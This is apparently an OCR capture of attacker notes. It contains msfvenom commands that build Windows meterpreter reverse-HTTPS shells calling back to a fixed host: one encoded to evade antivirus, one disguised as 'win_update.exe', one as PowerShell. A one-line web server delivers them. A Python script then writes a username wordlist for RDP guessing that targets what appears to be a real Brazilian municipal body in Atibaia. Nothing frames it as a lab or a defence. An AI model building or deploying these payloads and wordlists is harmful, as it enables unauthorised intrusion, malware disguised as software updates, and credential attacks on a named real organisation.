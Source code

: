 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Recriando a wordlist personalizada de usuários após reset

usernames = [
    "admin", "administrator", "atibaia", "servidor", "sumas", "sumas57667", "prefeitura",
    "contas", "financeiro", "user01", "user02", "secretaria", "ti", "tecnico", "suporte",
    "gestor", "coordenador", "responsavel", "servidor1", "servidor2", "atibaia.local",
    "a.sumas", "dirigente", "adm.atibaia", "servidor.atibaia", "admin.sumas", "diretoria",
    "admin.ti", "servidor.ti"
]

# Salvar a wordlist em arquivo
userlist_path = "/mnt/data/userlist_atibaia_rdp.txt"
with open(userlist_path, "w") as f:
    for user in usernames:
        f.write(user + "\n")

userlist_path

